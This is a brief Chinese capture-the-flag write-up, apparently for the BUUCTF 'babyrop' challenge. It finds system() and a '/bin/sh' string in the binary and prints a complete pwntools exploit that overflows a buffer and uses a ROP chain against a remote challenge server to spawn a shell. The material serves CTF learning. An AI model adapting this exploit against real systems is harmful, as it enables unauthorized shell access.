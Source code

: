 存在`system()`函数

![image.png](img/78e728fa2b1f587a135e379b5009be16.png)

存在`/bin/sh`字符串

故考虑使用csu中gadget构造rop链执行`system("/bin/sh")`函数以getshell

![image.png](img/ede76ff6db4dba456dfe5b7a93922e7b.png)

构造exp如下：

```
from pwn import *

sh_addr = 0x601048
pop_rdi_ret = 0x400683

p = remote('node3.buuoj.cn',27558)
e = ELF('./babyrop')

payload = b'A'*0x10 + p64(0xdeadbeef) + p64(pop_rdi_ret) +  p64(sh_addr) + p64(e.sym['system'])
p.sendline(payload)
p.interactive() 
```

运行即得flag
